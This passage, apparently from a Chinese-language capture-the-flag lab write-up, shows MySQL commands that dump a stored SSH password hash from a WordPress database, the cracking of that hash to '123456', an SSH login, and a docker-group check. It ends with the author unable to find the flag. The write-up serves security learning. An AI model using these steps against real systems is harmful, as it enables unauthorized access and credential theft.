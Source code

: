 ```shell

MySQL [(none)]> use wordpress;
use wordpress;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
MySQL [wordpress]> show tables;
show tables;
+-----------------------+
| Tables_in_wordpress   |
+-----------------------+
| host_ssh_cred         |
| wp_commentmeta        |
| wp_comments           |
| wp_links              |
| wp_options            |
| wp_postmeta           |
| wp_posts              |
| wp_term_relationships |
| wp_term_taxonomy      |
| wp_termmeta           |
| wp_terms              |
| wp_usermeta           |
| wp_users              |
+-----------------------+
13 rows in set (0.00 sec)

MySQL [wordpress]> select * from host_ssh_cred;
select * from host_ssh_cred;
+-------------------+----------------------------------+
| id                | pw                               |
+-------------------+----------------------------------+
| hummingbirdscyber | e10adc3949ba59abbe56e057f20f883e |
+-------------------+----------------------------------+
1 row in set (0.00 sec)
```

### 拿到权限

解密可得 `123456`，此时再试试 `ssh` 连接。

```shell
hummingbirdscyber@vulnvm:~$ id
uid=1000(hummingbirdscyber) gid=1000(hummingbirdscyber) groups=1000(hummingbirdscyber),4(adm),24(cdrom),30(dip),46(plugdev),113(lpadmin),128(sambashare),129(docker)
```

发现 docker 的身影

```shell
docker ps
hummingbirdscyber@vulnvm:~$ docker ps
CONTAINER ID        IMAGE               COMMAND                  CREATED             STATUS              PORTS                  NAMES
252fa8cb1646        ubuntu              "/bin/bash"              6 weeks ago         Up 5 minutes                               brave_edison
1afdd1f6b82c        wordpress:latest    "docker-entrypoint.s…"   6 weeks ago         Up 5 minutes        0.0.0.0:8000->80/tcp   experimental_wordpress_1
81a93420fd22        mysql:5.7           "docker-entrypoint.s…"   6 weeks ago         Up 5 minutes        3306/tcp, 33060/tcp    experimental_db_1
```

进了几个容器看了下，找不到 `flag`，卡住了。拿到权限就行，以后再补充。

